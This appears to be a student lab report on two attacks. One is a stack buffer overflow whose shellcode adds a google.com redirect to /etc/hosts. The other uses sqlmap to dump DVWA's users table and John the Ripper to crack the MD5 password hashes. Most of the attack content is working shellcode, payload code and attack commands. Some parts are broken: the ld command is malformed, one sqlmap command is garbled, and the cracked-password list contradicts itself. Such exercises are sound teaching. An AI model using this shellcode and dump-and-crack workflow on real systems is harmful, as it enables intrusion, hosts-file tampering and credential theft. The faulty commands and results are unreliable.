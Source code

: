 # Lab #1
## Task 1: Software buffer overflow attack

### 1. Compile asm program and C program to executable code:
*Note: Both files are to be put in the same folder*

***Compile vuln.c:***

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
*The function strcpy(buffer, argv[1]) copies data into the buffer without checking for overflow, making it vulnerable.*

To compile the vulnerable C program without security mechanisms, run:

```sh
gcc -g -m32 vuln.c -o vuln.out -fno-stack-protector -z execstack 
```

Here, -fno-stack-protector disables stack protection, and -z execstack
allows execution on the stack (where the shell code will be placed).

***Compile sh.asm:***

```asm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

Then, compile it using nasm and ld:

```sh
nasm -f elf sh.asm -o sh.o
ld -m elf_i386 sh -o sh.o
```

This will generate an object file from the assembly file.

### 2. Trigger the buffer overflow
"Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux."

#### Step 1: Extract shellcode from the binary
*We use objdump to extract the byte sequence for the attack:*

```sh
objdump -d sh | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//' | sed 's/ /\\x/g' | paste -d '' -s
```

*Which gives this after cleaning:*

```\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d```

#### Step 2: Identify the offset
*(Where the buffer overflows into the return address)*

```sh
gdb -q vuln.out
gdb-peda$ run $(python -c 'print "A"*20')
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/1.png)

Here, we can see `0xffffd740 ('A' <repeats 20 times>)` on the stack. The buffer is stored here, which is likely to be where the shell code is placed after the overflow. 

### 3: Construct the payload and conduct the attack
#### Step 1: Construct the payload

```py
from pwn import *

payload = b"A" * 20  # Fill the buffer and EBP to go straight to the return address
payload += b"\x40\xd7\xff\xff"  # Overwrite EIP, address where execution will jump to after overflow
payload += b"\x90" * 200  # NOP sled in case return address is off
payload += b"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d"  # Shell code

with open("payload.txt", "wb") as f:
    f.write(payload)
```

#### Step 2: Run and verify attack

##### 1. Run the program (with root permission)
```sh
sudo ./vuln.out "$(cat payload.txt)"
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/2.png)

##### 2. Verify the changes
```sh
cat /etc/hosts
```

![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/3.png)

## Task 2: Attack on the database of Vulnerable App from SQLi lab

### 1. Use sqlmap to get information about all available databases

#### Step 1: Start docker and set up sqlmap

```sh
# Ensure Docker is running before running the commands
docker pull vulnerables/web-dvwa
docker run -d -p 80:80 vulnerables/web-dvwa
```

We then open http://localhost to access the DVWA site

Next, we can install sqlmap here: https://github.com/sqlmapproject/sqlmap?tab=readme-ov-file#installation. I downloaded the latest zipball.

#### Step 2: Identify vulnerable point and run sqlmap

We log in using the default username `admin` and password `password`. Then, we go to the SQL Injection page `http://localhost/vulnerabilities/sqli/`, where we input `1` and press submit, which gives the vulnerable url `http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit`. 
Next, we check the cookies of the site. I used a cookie editor for this:
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/4.png)

With the cookies `security=low` and `PHPSESSID=sqk0l27imcclp1u9d13s1sc444`, we will use sqlmap to exploit this vulnerability. In my case, I opened a command prompt in the sqlmap folder and ran:
```sh
python sqlmap.py sqlmapproject-sqlmap-1.8.9-1-g9e36fd7\sqlmapproject-sqlmap-9e36fd7>python sqlmap.py sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=sqk0l27imcclp1u9d13s1sc444" --dbs`
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/5.png)
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/6.png)

Here, we can see that the available databases are `dvwa` and `information_schema`.

### 2. Use sqlmap to get tables, users information

#### Step 1: Extract tables

```sh
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=sqk0l27imcclp1u9d13s1sc444" -D dvwa --tables
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/7.png)

We can see that there are two tables, `guestbook` and `users`

#### Step 2: Extract users information

```sh
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=sqk0l27imcclp1u9d13s1sc444" -D dvwa -T users --dump
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/8.png)
```sql
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                      | password                         | last_name | first_name | last_login          | failed_login |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| 1       | admin   | /hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2024-10-22 14:34:09 | 0            |
| 2       | gordonb | /hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2024-10-22 14:34:09 | 0            |
| 3       | 1337    | /hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2024-10-22 14:34:09 | 0            |
| 4       | pablo   | /hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2024-10-22 14:34:09 | 0            |
| 5       | smithy  | /hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2024-10-22 14:34:09 | 0            |
+---------+---------+-----------------------------+----------------------------------+-----------+------------+---------------------+--------------+
```
The password hashes seem to be in an MD5 format.

### 3. Make use of John the Ripper to disclose the password of all database users from the above exploit

First, we can install John The Ripper from the site https://www.openwall.com/john/. I downloaded this specific version: https://www.openwall.com/john/k/john-1.9.0-jumbo-1-win64.7z.
Next, we'll compile all of the hashed passwords we extracted in the previous section into a hashedpw.txt file and run John The Ripper on it. 
```sh
john --format=raw-md5 hashedpw.txt
```
![image](https://raw.githubusercontent.com/ByrnorOCount/Subs/refs/heads/main/9.png)
And we've obtained the raw passwords:
```
5f4dcc3b5aa765d61d8327deb882cf99 = password
e99a18c428cb38d5f260853678922e03 = password
8d3533d75ae2c3966d7e0d4fcc69216b = abc123
0d107d09f5bbe40cade3de5c71e9e9b7 = letmein
5f4dcc3b5aa765d61d8327deb882cf99 = charley
```
